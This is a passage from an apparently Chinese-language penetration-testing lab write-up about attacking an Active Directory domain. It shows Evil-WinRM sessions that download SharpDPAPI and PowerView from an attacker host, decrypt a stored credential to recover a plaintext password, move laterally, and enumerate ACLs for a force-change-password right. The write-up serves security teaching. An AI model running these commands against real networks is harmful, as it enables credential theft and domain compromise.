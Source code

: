     *Evil-WinRM* PS C:\wirteTEMP> Invoke-WebRequest -Uri "http://192.168.205.128/SharpDPAPI.exe" -OutFile "C:\wirteTEMP\SharpDPAPI.exe"
    *Evil-WinRM* PS C:\wirteTEMP> ./SharpDPAPI.exe credentials /unprotect /credfile:"C:\Users\tindalos\AppData\Roaming\Microsoft\Credentials\A2E4656BCBABFD9279E090E8482A7141" /sid:S-1-5-21-298176814-2846777796-698167141-1103 /password:"Th3C@ll0fCtHu1hu!"
    ...
      CredFile           : A2E4656BCBABFD9279E090E8482A7141
        ...
        UserName         : lihua
        Credential       : hello%2633
    ...
    ```
    执行成功！我们从 `tindalos` 的本地存储中，解密出了另一位用户 `lihua` 的明文密码：`hello%2633`。

### 4.2. 横向移动与 ACL 深度枚举

获得了 `lihua` 的凭据，我们立即横向移动到该用户的会话中，并深入挖掘其所属的 `AccountModifier` 组到底拥有何种权限。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ evil-winrm -i 192.168.205.149 -u 'lihua' -p 'hello%2633'
...
*Evil-WinRM* PS C:\Users\lihua\Documents> whoami
bicker\lihua
```
为了精确枚举 Active Directory 的访问控制列表 (ACL)，我们上传并加载强大的 `PowerView.ps1` 脚本。

```powershell
*Evil-WinRM* PS C:\wirteTEMP> Invoke-WebRequest -Uri "http://192.168.205.128/PowerView.ps1" -OutFile "C:\wirteTEMP\pv.ps1"

*Evil-WinRM* PS C:\wirteTEMP> . .\pv.ps1
```
加载后，我们使用 PowerView 查询 `AccountModifier` 组具体对 `jianyin` 用户拥有哪些权限。

```powershell
*Evil-WinRM* PS C:\wirteTEMP> Find-InterestingDomainAcl -ResolveGUIDs | Where-Object { $_.ObjectDN -match "jianyin" } | Format-List *

ObjectDN                : CN=jianyin,CN=Users,DC=bicker,DC=com
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : ExtendedRight
ObjectAceType           : User-Force-Change-Password
AceFlags                : None
AceType                 : AccessAllowedObject
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-298176814-2846777796-698167141-2107
IdentityReferenceName   : AccountModifier
IdentityReferenceDomain : bicker.com
IdentityReferenceDN     : CN=AccountModifier,CN=Users,DC=bicker,DC=com
IdentityReferenceClass  : group
```
**分析结果**：输出极为精确地告诉我们，`AccountModifier` 组对 `jianyin` 用户对象拥有的并非通用写入权，而是一项特定的**扩展权限 (Extended Right)**：`User-Force-Change-Password`。

